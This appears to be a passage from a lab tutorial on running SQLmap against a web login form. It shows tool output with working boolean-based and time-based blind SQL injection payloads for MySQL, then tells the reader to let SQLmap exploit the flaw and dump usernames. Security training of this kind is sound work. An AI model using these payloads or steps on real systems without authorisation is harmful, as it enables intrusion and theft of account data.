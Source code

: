 Lastly, you will see:

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=xalN' RLIKE (SELECT (CASE WHEN (7674=7674) THEN 0x78616c4e ELSE 0x28 END))-- Cxmg&passwd=&submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=xalN' AND (SELECT 7043 FROM (SELECT(SLEEP(5)))Znez)-- BCTT&passwd=&submit=Submit
---
do you want to exploit this SQL injection? [Y/n] 

```

SQLmap has found a vulnerability in the mysql server. We're going to hit **Enter** and have SQLmap exploit this vulnerability. 
- Hit **Enter**


Notice that SQLmap was able to retrieve the following usernames:

   ![SQLmap Users](./Images/SQLMAP/sqlmap_1-1.png)
